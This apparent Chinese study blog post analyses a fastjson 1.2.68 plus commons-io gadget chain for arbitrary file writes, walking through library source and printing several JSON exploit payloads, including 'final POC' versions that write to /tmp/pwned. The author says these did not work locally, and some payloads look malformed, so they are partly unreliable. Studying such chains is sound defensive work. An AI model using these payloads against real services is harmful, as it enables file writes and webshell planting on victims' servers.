





---
title: "fastjson1.2.68 commons-io2.x 任意文件写入利用链学习"
date: 2026-03-01T13:07:28+08:00
summary: "fastjson1.2.68 commons-io 任意文件写入利用链"
url: "/posts/Java之fastjson1-2-68-commons-io-任意文件写入利用链学习/"
categories:
  - "javasec"
tags:
  - "javasec"
draft: false
---

# 前言

上篇文章末尾分析的fastjson1.2.68写入文件的链子已经是很多年前爆出来的了，浅蓝师傅的[fastjson 1.2.68 autotype bypass反序列化漏洞](https://b1ue.cn/archives/382.html ) 给链子的挖掘提供了一个很好的思路，并且在su18等各位大师傅的文章中也有详细的给出了很多可利用的POC

https://su18.org/post/fastjson/#%E5%9B%9B-payload

https://drun1baby.top/2022/08/13/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8704-Fastjson1-2-62-1-2-68%E7%89%88%E6%9C%AC%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#0x05-1-2-68%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88expectClass%E7%BB%95%E8%BF%87AutoType%EF%BC%89

关于java中的文件写入，我最早接触的是polar的一道一写一个不吱声的题目中利用到的Aspectjweaver反序列化利用链，并且我前几天也浅浅研究了一下这个链子 

https://wanth3f1ag.top/2026/02/28/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BAspectjweaver%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E8%87%B3%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5/

从分析中可以看到，Aspectjweaver这条链子还是很贴合SpringBoot环境的，因此Aspectjweaver链打springboot确实非常贴合实战。但是链子中触发get方法需要用到依赖commons-collections，并且需要知道JAVA_HOME目录，限制条件也不少

后来想着继续研究一下写文件这一块，就去检索了一下目前爆出来的链子，发现大致有以下几种方法可以写入文件

- 浅蓝师傅的fastjson 1.2.68 autotype bypass链
- Aspectjweaver链写入webshell
- JDK11的任意文件读写
- fastjson1.2.68 结合IO写入文件
- ascii jar？暂时还没了解过

本文就着fastjson1.2.68 结合IO写入文件的利用链进行分析学习

# 思路从何而来

由于 fastjson 漏洞触发方式是调用 getter/setter/和构造方法触发漏洞，因此对于写入文件的操作，根据浅蓝师傅的文章，需要以下几个条件：

- 需要一个通过 set 方法或构造方法指定文件路径的 OutputStream。
- 需要一个通过 set 方法或构造方法传入字节数据的 OutputStream，参数类型必须是 `byte[]、ByteBuffer、String、char[]` 其中的一个，并且可以通过 set 方法或构造方法传入一个 OutputStream，最后可以通过 write 方法将传入的字节码 write 到传入的 OutputStream。
- 需要一个通过 set 方法或构造方法传入一个 OutputStream，并且可以通过调用 toString、hashCode、get、set、构造方法 调用传入的 OutputStream 的 close、write 或 flush 方法。

以上三个组合在一起就能构造成一个写文件的利用链

在上篇文章就已经给出过POC

```java
{
    "stream": {
        "@type": "java.lang.AutoCloseable",
        "@type": "org.eclipse.core.internal.localstore.SafeFileOutputStream",
        "targetPath": "f:/test/pwn.txt",
        "tempPath": "f:/test/test.txt"
    },
    "writer": {
        "@type": "java.lang.AutoCloseable",
        "@type": "com.esotericsoftware.kryo.io.Output",
        "buffer": "YjF1M3I=",
        "outputStream": {
            "$ref": "$.stream"
        },
        "position": 5
    },
    "close": {
        "@type": "java.lang.AutoCloseable",
        "@type": "com.sleepycat.bind.serial.SerialOutput",
        "out": {
            "$ref": "$.writer"
        }
    }
}
```

但是测试过程中发现许多特殊字符都无法写入，仍存在局限性，所以还需要深入寻找新的链子

长亭公众号发了一个 fastjson commons-io AutoCloseable 的利用，相关文章：

https://mp.weixin.qq.com/s/6fHJ7s6Xo4GEdEGpKFLOyg

https://stack.chaitin.com/techblog/detail/16

那就深入学习一下吧

# commons-io 利用链分析

为什么使用commons-io 库呢，主要体现下下面几个方面：

1. commons-io 库是非常常见的第三方库
2. commons-io 库里的类字节码带有 LocalVariableTable 调试信息
3. commons-io 库里几乎没有类在 fastjson 黑名单中
4. commons-io 库里基本都是跟 io 相关的类，跟 AutoCloseable 关联性比较强，可探索的地方很多

环境是fastjson 1.2.68、commons-io 2.0

## 1. XmlStreamReader

看到`org.apache.commons.io.input.XmlStreamReader` 的构造函数

```java
    public XmlStreamReader(InputStream is, String httpContentType,
            boolean lenient, String defaultEncoding) throws IOException {
        this.defaultEncoding = defaultEncoding;
        this.encoding = doHttpStream(is, httpContentType, lenient);
        this.reader = new InputStreamReader(is, encoding);
    }
```

接受 InputStream 对象为参数，跟进调用链后会发现其会调用到InputStream的read函数

```java
XmlStreamReader.<init>(InputStream, String, boolean, String)
-> XmlStreamReader.doHttpStream(BOMInputStream, BOMInputStream, String, boolean)
-> BOMInputStream.getBOMCharsetName()
-> BOMInputStream.getBOM()
-> BufferedInputStream.read()
-> BufferedInputStream.fill()
-> InputStream.read(byte[], int, int) 
```

## 2. BOMInputStream

看到BOMInputStream.getBOM()方法 ，这个方法原本的作用就是根据类初始化时传入的 InputStream 对象以及 ByteOrderMark 配置，在流中读取对应的 ByteOrderMark。

```java
public ByteOrderMark getBOM() throws IOException {
    if (firstBytes == null) {
        int max = 0;
        for (ByteOrderMark bom : boms) {
            max = Math.max(max, bom.length());
        }
        firstBytes = new int[max];
        for (int i = 0; i < firstBytes.length; i++) {
            firstBytes[i] = in.read();
            fbLength++;
            if (firstBytes[i] < 0) {
                break;
            }

            byteOrderMark = find();
            if (byteOrderMark != null) {
                if (!include) {
                    fbLength = 0;
                }
                break;
            }
        }
    }
    return byteOrderMark;
}
```

使用了一个for循环，根据类初始化时的 ByteOrderMark 的 int 数组长度，调用in.read()方法在流中循环读取数据

看看这个BOMInputStream是干啥的

这个类是 commons-io 用来检测文件输入流的 BOM 并在输入流中进行过滤，根据 `org.apache.commons.io.ByteOrderMark` 中的属性，BOMInputStream 支持识别以下几种 BOM。（commons-io2.0）



然后看看BOMInputStream的构造函数

```java
    public BOMInputStream(InputStream delegate, boolean include, ByteOrderMark... boms) {
        super(delegate);
        if (boms == null || boms.length == 0) {
            throw new IllegalArgumentException("No BOMs specified");
        }
        this.include = include;
        this.boms = Arrays.asList(boms);
    }
```

参数 delegate 接收 InputStream，使用父类构造方法放入 `this.in` 中 ，boms 是 ByteOrderMark 类的可变参数数组，用来指定不同编码的 BOM 头部，会处理成 List 对象存入 `this.boms` 中。

ByteOrderMark 就是 commons-io 包对流中 BOM 头部的封装，这个类接收 charsetName 和名为 bytes 的可变参数 int 数组，这个 int 数组用来表示不同编码的字节顺序标记的表示

```java
    public ByteOrderMark(String charsetName, int... bytes) {
        if (charsetName == null || charsetName.length() == 0) {
            throw new IllegalArgumentException("No charsetName specified");
        }
        if (bytes == null || bytes.length == 0) {
            throw new IllegalArgumentException("No bytes specified");
        }
        this.charsetName = charsetName;
        this.bytes = new int[bytes.length];
        System.arraycopy(bytes, 0, this.bytes, 0, bytes.length);
    }
```

基于上面的分析可以给出一个json数据

```java
{
	"bOMInputStream": {
		"@type": "java.lang.AutoCloseable",
		"@type": "org.apache.commons.io.input.BOMInputStream",
		"delegate": {InputStream 对象},
		"boms": [{
			"charsetName": "UTF-8",
			"bytes": [0, 0, 0, 0]
		}]
	}
}
```

## 3. TeeInputStream

`org.apache.commons.io.input.TeeInputStream` 的构造函数接受 InputStream 和 OutputStream 对象为参数

```java
    public TeeInputStream(InputStream input, OutputStream branch) {
        this(input, branch, false);
    }

    public TeeInputStream(
            InputStream input, OutputStream branch, boolean closeBranch) {
        super(input);
        this.branch = branch;
        this.closeBranch = closeBranch;
    }
```

TeeInputStream 是 FilterInputStream 的子类，会在构造方法中会把 InputStream 放在 `this.in` 中。

TeeInputStream 的 `read` 方法会调用其父类 ProxyInputStream 的对应 read 方法读取 `this.in` 中的内容，并调用 `this.branch` 中的 OutputStream 对象的 write 方法进行写入。

```java
    @Override
    public int read() throws IOException {
        int ch = super.read();
        if (ch != -1) {
            branch.write(ch);
        }
        return ch;
    }
    @Override
    public int read(byte[] bts, int st, int end) throws IOException {
        int n = super.read(bts, st, end);
        if (n != -1) {
            branch.write(bts, st, n);
        }
        return n;
    }
    @Override
    public int read(byte[] bts) throws IOException {
        int n = super.read(bts);
        if (n != -1) {
            branch.write(bts, 0, n);
        }
        return n;
    }
```

基于上面的分析可以给出一个json

```java
{
	"teeInputStream": {
		"@type": "java.lang.AutoCloseable",
		"@type": "org.apache.commons.io.input.TeeInputStream",
		"input": {InputStream 对象},
		"branch": {OutputStream 对象},
		"closeBranch": true
	}
}
```

然后我们需要分别找到一个InputStream对象和OutputStream对象进行读取和写入操作

## InputStream对象

### 4.1 ReaderInputStream

`org.apache.commons.io.input.ReaderInputStream` 的构造函数接受 Reader 对象作为参数

```java
    public ReaderInputStream(Reader reader, Charset charset, int bufferSize) {
        this.reader = reader;
        encoder = charset.newEncoder();
        encoderIn = CharBuffer.allocate(bufferSize);
        encoderIn.flip();
    }
```

看到ReaderInputStream的read() 方法，里面会调用到reader的read()方法，尝试从reader中获取输出



### 4.2 CharSequenceReader

`org.apache.commons.io.input.CharSequenceReader` 的构造函数接受 CharSequence 对象作为参数

```java
    public CharSequenceReader(CharSequence charSequence) {
        this.charSequence = (charSequence != null ? charSequence : "");
    }
```

其中的read方法会尝试读取 CharSequence 的值

```java
    @Override
    public int read(char[] array, int offset, int length) {
        if (idx >= charSequence.length()) {
            return -1;
        }
        if (array == null) {
            throw new NullPointerException("Character array is missing");
        }
        if (length < 0 || (offset + length) > array.length) {
            throw new IndexOutOfBoundsException("Array Size=" + array.length +
                    ", offset=" + offset + ", length=" + length);
        }
        int count = 0;
        for (int i = 0; i < length; i++) {
            int c = read();
            if (c == -1) {
                return count;
            }
            array[offset + i] = (char)c;
            count++;
        }
        return count;
    }
    @Override
    public int read() {
        if (idx >= charSequence.length()) {
            return -1;
        } else {
            return charSequence.charAt(idx++);
        }
    }
```

组合一下 ReaderInputStream 和 CharSequenceReader，尝试写出一个json

```java
{
    "CharSequenceReader":{
        "@type":"org.apache.commons.io.input.CharSequenceReader",
        "charSequence":{
            "@type":"java.lang.String""aaaaaa......(YOUR_INPUT)"
    },
    "readerInputStream ":{
        "@type":"java.lang.AutoCloseable",
        "@type":"org.apache.commons.io.input.ReaderInputStream",
        "reader":{
            "$ref": "$.charSequenceReader"
        },
        "charsetName":"UTF-8",
        "bufferSize":1024
    }
}
```

注意这里为了构建 charSequence 传入自己输入的字符串参数，根据 `StringCodec.deserialze(DefaultJSONParser, Type, Object)` 方法对 JSON 结构做了一些改变，看起来是畸形的 JSON，但是可以被 fastjson 正常解析。

那么现在有触发 InputStream read 方法的链入口，也有能传入可控内容的 InputStream，只差一个自定义输出位置的 OutputStream 了。

## OutputStream对象

### 5.1 WriterOutputStream

`org.apache.commons.io.output.WriterOutputStream` 的构造函数接受 Writer 对象作为参数

```java
    public WriterOutputStream(Writer writer, Charset charset, int bufferSize, boolean writeImmediately) {
        this.writer = writer;
        decoder = charset.newDecoder();
        decoder.onMalformedInput(CodingErrorAction.REPLACE);
        decoder.onUnmappableCharacter(CodingErrorAction.REPLACE);
        decoder.replaceWith("?");
        this.writeImmediately = writeImmediately;
        decoderOut = CharBuffer.allocate(bufferSize);
    }
```

WriterOutputStream的write方法中会调用flushOutput方法，flushOutput方法中调用`writer.write(decoderOut.array(), 0, decoderOut.position());`来输出

```java
    @Override
    public void write(byte[] b, int off, int len) throws IOException {
        while (len > 0) {
            int c = Math.min(len, decoderIn.remaining());
            decoderIn.put(b, off, c);
            processInput(false);
            len -= c;
            off += c;
        }
        if (writeImmediately) {
            flushOutput();
        }
    }
    @Override
    public void write(byte[] b) throws IOException {
        write(b, 0, b.length);
    }
    @Override
    public void write(int b) throws IOException {
        write(new byte[] { (byte)b }, 0, 1);
    }
    private void flushOutput() throws IOException {
        if (decoderOut.position() > 0) {
            writer.write(decoderOut.array(), 0, decoderOut.position());
            decoderOut.rewind();
        }
    }
```

### 5.2 FileWriterWithEncoding

`org.apache.commons.io.output.FileWriterWithEncoding` 的构造函数接受 File 对象作为参数

```java
    public FileWriterWithEncoding(File file, String encoding, boolean append) throws IOException {
        super();
        this.out = initWriter(file, encoding, append);
    }
```

跟进initWriter方法，检测file是否存在，以 File 对象构建 FileOutputStream 文件输出流

```java
    private static Writer initWriter(File file, Object encoding, boolean append) throws IOException {
        if (file == null) {
            throw new NullPointerException("File is missing");
        }
        if (encoding == null) {
            throw new NullPointerException("Encoding is missing");
        }
        boolean fileExistedAlready = file.exists();
        OutputStream stream = null;
        Writer writer = null;
        try {
            stream = new FileOutputStream(file, append);
            if (encoding instanceof Charset) {
                writer = new OutputStreamWriter(stream, (Charset)encoding);
            } else if (encoding instanceof CharsetEncoder) {
                writer = new OutputStreamWriter(stream, (CharsetEncoder)encoding);
            } else {
                writer = new OutputStreamWriter(stream, (String)encoding);
            }
        } catch (IOException ex) {
            IOUtils.closeQuietly(writer);
            IOUtils.closeQuietly(stream);
            if (fileExistedAlready == false) {
                FileUtils.deleteQuietly(file);
            }
            throw ex;
        } catch (RuntimeException ex) {
            IOUtils.closeQuietly(writer);
            IOUtils.closeQuietly(stream);
            if (fileExistedAlready == false) {
                FileUtils.deleteQuietly(file);
            }
            throw ex;
        }
        return writer;
    }
```

因此组合一下 WriterOutputStream 和 FileWriterWithEncoding，就能构建得到输出到指定文件的 OutputStream的json。

```json
{
    "fileWriterWithEncoding":{
        "@type": "java.lang.AutoCloseable",
        "@type":"org.apache.commons.io.output.FileWriterWithEncoding",
        "file": "/tmp/pwned",
        "encoding": "UTF-8",
        "append": false
    },
    "writerOutputStream ":{
        "@type":"java.lang.AutoCloseable",
        "@type":"org.apache.commons.io.output.WriterOutputStream",
        "writer":{
            "$ref": "$.fileWriterWithEncoding"
        },
        "charsetName": "UTF-8",
      	"bufferSize": 1024,
      	"writeImmediately": true
    }
}
```

# 初步POC

结合上面的链子，我们可以整合出一个初步的poc

```java
{
  "@type":"java.lang.AutoCloseable",
  "@type":"org.apache.commons.io.input.XmlStreamReader",
  "is":{
    "@type":"org.apache.commons.io.input.TeeInputStream",
    "input":{
      "@type":"org.apache.commons.io.input.ReaderInputStream",
      "reader":{
        "@type":"org.apache.commons.io.input.CharSequenceReader",
        "charSequence":{"@type":"java.lang.String""[文件内容]"
        },
        "charsetName":"UTF-8",
        "bufferSize":1024
      },
      "branch":{
        "@type":"org.apache.commons.io.output.WriterOutputStream",
        "writer": {
          "@type":"org.apache.commons.io.output.FileWriterWithEncoding",
          "file": "[文件路径]",
          "encoding": "UTF-8",
          "append": false
        },
        "charsetName": "UTF-8",
        "bufferSize": 1024,
        "writeImmediately": true
      },
      "closeBranch":true
    },
    "httpContentType":"text/xml",
    "lenient":false,
    "defaultEncoding":"UTF-8"
  }
```

利用引用机制整合一下，这样更方便看吧

```json
{
  "CharSequenceReader":{
    "@type": "java.lang.AutoCloseable",
    "@type":"org.apache.commons.io.input.CharSequenceReader",
    "charSequence":{
      "@type":"java.lang.String""[文件内容]"
    },
    "readerInputStream": {
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.ReaderInputStream",
      "reader":{
        "$ref": "$.charSequenceReader"
      },
      "charsetName":"UTF-8",
      "bufferSize":1024
    },
    "fileWriterWithEncoding":{
      "@type": "java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.output.FileWriterWithEncoding",
      "file": "[文件路径]",
      "encoding": "UTF-8",
      "append": false
    },
    "writerOutputStream ":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.output.WriterOutputStream",
      "writer":{
        "$ref": "$.fileWriterWithEncoding"
      },
      "charsetName": "UTF-8",
      "bufferSize": 1024,
      "writeImmediately": true
    },
  "@type":"java.lang.AutoCloseable",
  "@type":"org.apache.commons.io.input.XmlStreamReader",
  "is":{
    "@type":"org.apache.commons.io.input.TeeInputStream",
    "input":{
      "$ref": "$.readerInputStream"
      },
      "branch":{
        "$ref": "$.writerOutputStream"
      },
      "closeBranch":true
    },
    "httpContentType":"text/xml",
    "lenient":false,
    "defaultEncoding":"UTF-8"
  }
```

用fastjson进行反序列化后发现文件虽然创建了，但是内容没有写进去？？？

# 没写进去？

这里涉及到的一个问题就是，当要写入的字符串长度不够时，输出的内容会被保留在 ByteBuffer 中，不会被实际输出到文件里

在sun.nio.cs.StreamEncoder#implWrite方法中



- 如果写入的字节不多，缓冲区够用，则CoderResult为Underflow状态，并不会触发实际的写入字节的操作
- 如果写入的字节够多，缓冲区不够用，则CoderResult 为Overflow状态，会触发实际的写入字节的操作

所以我们需要写入足够多的字节才会让它刷新 buffer，写入字节到输出流对应的文件里。但是在XmlStreamReader的构造函数中早就定义好了 InputStream buffer 的长度大小为4096



也就是说每次读取或者写入的字节数最多也就是 4096，但 Writer buffer 大小默认是 8192



所以仅仅一次写入在没有手动执行 flush 的情况下是无法触发实际的字节写入的。那该怎么办呢？

# 重复写入至overflow

通过 `$ref` 循环引用，多次往同一个 OutputStream 流里输出即可。

直接给出POC

# 最终POC

commons-io 2.0 - 2.6 版本：

```JSON
{
  "x":{
    "@type":"com.alibaba.fastjson.JSONObject",
    "input":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.ReaderInputStream",
      "reader":{
        "@type":"org.apache.commons.io.input.CharSequenceReader",
        "charSequence":{"@type":"java.lang.String""aaaaaa...(长度要大于8192，实际写入前8192个字符)"
      },
      "charsetName":"UTF-8",
      "bufferSize":1024
    },
    "branch":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.output.WriterOutputStream",
      "writer":{
        "@type":"org.apache.commons.io.output.FileWriterWithEncoding",
        "file":"/tmp/pwned",
        "encoding":"UTF-8",
        "append": false
      },
      "charsetName":"UTF-8",
      "bufferSize": 1024,
      "writeImmediately": true
    },
    "trigger":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "is":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "$ref":"$.input"
        },
        "branch":{
          "$ref":"$.branch"
        },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    },
    "trigger2":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "is":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "$ref":"$.input"
        },
        "branch":{
          "$ref":"$.branch"
        },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    },
    "trigger3":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "is":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "$ref":"$.input"
        },
        "branch":{
          "$ref":"$.branch"
        },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    }
  }
}
```

commons-io 2.7 - 2.8.0 版本：

```JSON
{
  "x":{
    "@type":"com.alibaba.fastjson.JSONObject",
    "input":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.ReaderInputStream",
      "reader":{
        "@type":"org.apache.commons.io.input.CharSequenceReader",
        "charSequence":{"@type":"java.lang.String""aaaaaa...(长度要大于8192，实际写入前8192个字符)",
        "start":0,
        "end":2147483647
      },
      "charsetName":"UTF-8",
      "bufferSize":1024
    },
    "branch":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.output.WriterOutputStream",
      "writer":{
        "@type":"org.apache.commons.io.output.FileWriterWithEncoding",
        "file":"/tmp/pwned",
        "charsetName":"UTF-8",
        "append": false
      },
      "charsetName":"UTF-8",
      "bufferSize": 1024,
      "writeImmediately": true
    },
    "trigger":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "inputStream":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "$ref":"$.input"
        },
        "branch":{
          "$ref":"$.branch"
        },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    },
    "trigger2":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "inputStream":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "$ref":"$.input"
        },
        "branch":{
          "$ref":"$.branch"
        },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    },
    "trigger3":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "inputStream":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "$ref":"$.input"
        },
        "branch":{
          "$ref":"$.branch"
        },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    }
  }
```

但是我一直在本地没有打通，这两天研究一下

参考文章：

https://stack.chaitin.com/techblog/detail/16

https://mp.weixin.qq.com/s/6fHJ7s6Xo4GEdEGpKFLOyg
